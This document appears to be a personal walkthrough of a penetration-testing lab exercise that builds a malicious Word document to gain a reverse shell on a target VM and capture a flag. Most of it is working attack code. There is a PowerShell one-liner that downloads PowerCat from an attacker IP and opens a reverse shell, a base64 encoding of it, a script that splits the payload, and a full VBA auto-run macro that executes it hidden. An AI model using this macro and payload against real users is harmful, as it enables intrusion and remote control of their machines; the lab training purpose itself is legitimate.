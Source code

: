 

2. Once you have confirmed that the macro from the previous exercise works, upload the document containing the macro _MyMacro_ in the file upload form (port 8000) of the _TICKETS_ (VM #2) machine with the name **ticket.doc**
   A script on the machine, simulating a user, checks for this file and executes it.
   After receiving a reverse shell, enter the flag from the **flag.txt** file on the desktop for the _Administrator_ user.
   For the file upload functionality, add **tickets.com** with the corresponding IP address in **/etc/hosts**.
    \*Please note that it can take up to three minutes after uploading the document for the macro to get executed.

- Craft PowerShell cmd to download PowerCat & run a reverse shell
```powershell
IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.45.167/powercat.ps1');powercat -c 192.168.45.167 -p 4444 -e powershell
```

- Encode cmd w/ **pwsh**
```powershell
$TEXT = "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.45.167/powercat.ps1');powercat -c 192.168.45.167 -p 4444 -e powershell"
$Bytes = [System.Text.Encoding]::Unicode.GetBytes($Text)
$EncodedText =[Convert]::ToBase64String($Bytes)
$EncodedText                                                                                           
SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQA5ADIALgAxADYAOAAuADQANQAuADEANgA3AC8AcABvAHcAZQByAGMAYQB0AC4AcABzADEAJwApADsAcABvAHcAZQByAGMAYQB0ACAALQBjACAAMQA5ADIALgAxADYAOAAuADQANQAuADEANgA3ACAALQBwACAANAA0ADQANAAgAC0AZQAgAHAAbwB3AGUAcgBzAGgAZQBsAGwA
```

- Use python script to split the payload
```python
str = "powershell.exe -nop -w hidden -e <base64EncodedText>"  
  
n = 50  
  
for i in range(0, len(str), n):  
print "Str = Str + " + '"' + str[i:i+n] + '"'
```

- Create Word doc (ticket.doc) on Win computer.
- View > Macros
- Create Macro
```vbscript
Sub AutoOpen()  
  
	MyMacro  
  
End Sub  
  
Sub Document_Open()  
  
	MyMacro  
  
End Sub  
  
Sub MyMacro()  
	Dim Str As String  
  
	Str = Str + "powershell.exe -nop -w hidden -e SQBFAFgAKABOAGUAd"
	 Str = Str + "wAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAA"
	 Str = Str + "uAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhA"
	 Str = Str + "GQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQA5ADI"
	 Str = Str + "ALgAxADYAOAAuADQANQAuADEANgA3AC8AcABvAHcAZQByAGMAY"
	 Str = Str + "QB0AC4AcABzADEAJwApADsAcABvAHcAZQByAGMAYQB0ACAALQB"
	 Str = Str + "jACAAMQA5ADIALgAxADYAOAAuADQANQAuADEANgA3ACAALQBwA"
	 Str = Str + "CAANAA0ADQANAAgAC0AZQAgAHAAbwB3AGUAcgBzAGgAZQBsAGw"
	 Str = Str + "A"  
  
	CreateObject("Wscript.Shell").Run Str
  
End Sub
```

- Edit **/etc/hosts** file
```powershell
# Open cmd w/ Run as Administrator
notepad c:\Windows\System32\Drivers\etc\hosts

# In notepad add:
192.168.228.198    tickets.com
```

- Navigate to tickets.com:8000
- Upload **ticket.doc** file
- `type ..\Desktop\flag.txt` once reverse shell connects